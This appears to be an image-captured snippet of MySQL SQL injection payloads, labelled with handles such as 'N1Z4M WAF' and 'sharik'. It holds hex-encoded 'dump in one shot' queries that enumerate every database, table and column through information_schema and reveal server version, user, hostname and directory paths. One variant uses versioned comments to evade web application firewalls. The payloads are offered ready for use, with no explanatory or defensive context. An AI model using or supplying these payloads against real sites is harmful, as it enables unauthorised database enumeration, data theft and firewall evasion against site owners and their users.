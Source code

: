 ```sql
+concat(0x3c666f6e7420636f6c6f723d7265643e3c62723e3c62723e7e7472306a416e2a203a3a3c666f6e7420636f6c6f723d626c75653e20,version(),0x3c62723e546f74616c204e756d626572204f6620446174616261736573203a3a20,(select count(*) from information_schema.schemata),0x3c2f666f6e743e3c2f666f6e743e,0x202d2d203a2d20,concat(@sc:=0x00,@scc:=0x00,@r:=0,benchmark(@a:=(select count(*) from information_schema.schemata),@scc:=concat(@scc,0x3c62723e3c62723e,0x3c666f6e7420636f6c6f723d7265643e,LPAD(@r:=@r%2b1,3,0x30),0x2e20,(Select concat(0x3c623e,@sc:=schema_name,0x3c2f623e) from information_schema.schemata where schema_name>@sc order by schema_name limit 1),0x202028204e756d626572204f66205461626c657320496e204461746162617365203a3a20,(select count(*) from information_Schema.tables where table_schema=@sc),0x29,0x3c2f666f6e743e,0x202e2e2e20 ,@t:=0x00,@tt:=0x00,@tr:=0,benchmark((select count(*) from information_Schema.tables where table_schema=@sc),@tt:=concat(@tt,0x3c62723e,0x3c666f6e7420636f6c6f723d677265656e3e,LPAD(@tr:=@tr%2b1,3,0x30),0x2e20,(select concat(0x3c623e,@t:=table_name,0x3c2f623e) from information_Schema.tables where table_schema=@sc and table_name>@t order by table_name limit 1),0x203a20284e756d626572204f6620436f6c756d6e7320496e207461626c65203a3a20,(select count(*) from information_Schema.columns where table_name=@t),0x29,0x3c2f666f6e743e,0x202d2d3a20,@c:=0x00,@cc:=0x00,@cr:=0,benchmark((Select count(*) from information_schema.columns where table_schema=@sc and table_name=@t),@cc:=concat(@cc,0x3c62723e,0x3c666f6e7420636f6c6f723d707572706c653e,LPAD(@cr:=@cr%2b1,3,0x30),0x2e20,(Select (@c:=column_name) from information_schema.columns where table_schema=@sc and table_name=@t and column_name>@c order by column_name LIMIT 1),0x3c2f666f6e743e)),@cc,0x3c62723e)),@tt)),@scc),0x3c62723e3c62723e,0x3c62723e3c62723e)+

-- N1Z4M WAF
+/*!13337concat*/(0x3c616464726573733e3c63656e7465723e3c62723e3c68313e3c666f6e7420636f6c6f723d22526564223e496e6a6563746564206279204e315a344d3c2f666f6e743e3c68313e3c2f63656e7465723e3c62723e3c666f6e7420636f6c6f723d2223663364393361223e4461746162617365207e3e3e203c2f666f6e743e,database/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223306639643936223e56657273696f6e207e3e3e203c2f666f6e743e,@@version,0x3c62723e3c666f6e7420636f6c6f723d2223306637363964223e55736572207e3e3e203c2f666f6e743e,user/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223306639643365223e506f7274207e3e3e203c2f666f6e743e,@@port,0x3c62723e3c666f6e7420636f6c6f723d2223346435613733223e4f53207e3e3e203c2f666f6e743e,@@version_compile_os,0x2c3c62723e3c666f6e7420636f6c6f723d2223366134343732223e44617461204469726563746f7279204c6f636174696f6e207e3e3e203c2f666f6e743e,@@datadir,0x3c62723e3c666f6e7420636f6c6f723d2223333130343362223e55554944207e3e3e203c2f666f6e743e,UUID/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223363930343637223e43757272656e742055736572207e3e3e203c2f666f6e743e,current_user/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223383432303831223e54656d70204469726563746f7279207e3e3e203c2f666f6e743e,@@tmpdir,0x3c62723e3c666f6e7420636f6c6f723d2223396336623934223e424954532044455441494c53207e3e3e203c2f666f6e743e,@@version_compile_machine,0x3c62723e3c666f6e7420636f6c6f723d2223396630613838223e46494c452053595354454d207e3e3e203c2f666f6e743e,@@CHARACTER_SET_FILESYSTEM,0x3c62723e3c666f6e7420636f6c6f723d2223393234323564223e486f7374204e616d65207e3e3e203c2f666f6e743e,@@hostname,0x3c62723e3c666f6e7420636f6c6f723d2223393430313333223e53797374656d2055554944204b6579207e3e3e203c2f666f6e743e,UUID/**N1Z4M**/(),0x3c62723e3c666f6e7420636f6c6f723d2223613332363531223e53796d4c696e6b20207e3e3e203c2f666f6e743e,@@GLOBAL.have_symlink,0x3c62723e3c666f6e7420636f6c6f723d2223353830633139223e53534c207e3e3e203c2f666f6e743e,@@GLOBAL.have_ssl,0x3c62723e3c666f6e7420636f6c6f723d2223393931663333223e42617365204469726563746f7279207e3e3e203c2f666f6e743e,@@basedir,0x3c62723e3c2f616464726573733e3c62723e3c666f6e7420636f6c6f723d22626c7565223e,(/*!13337select*/(@a)/*!13337from*/(/*!13337select*/(@a:=0x00),(/*!13337select*/(@a)/*!13337from*/(information_schema.columns)/*!13337where*/(table_schema!=0x696e666f726d6174696f6e5f736368656d61)and(@a)in(@a:=/*!13337concat*/(@a,table_schema,0x3c666f6e7420636f6c6f723d22726564223e20203a3a203c2f666f6e743e,table_name,0x3c666f6e7420636f6c6f723d22726564223e20203a3a203c2f666f6e743e,column_name,0x3c62723e))))a))+

-- sharik
(select(@a)from(select(@a:=0x00),(select(@a)from(information_schema.columns)where(table_schema!=0x696e666f726d6174696f6e5f736368656d61)and(@a)in(@a:=concat(@a,table_name,0x203a3a20,column_name,0x3c62723e))))a)
```
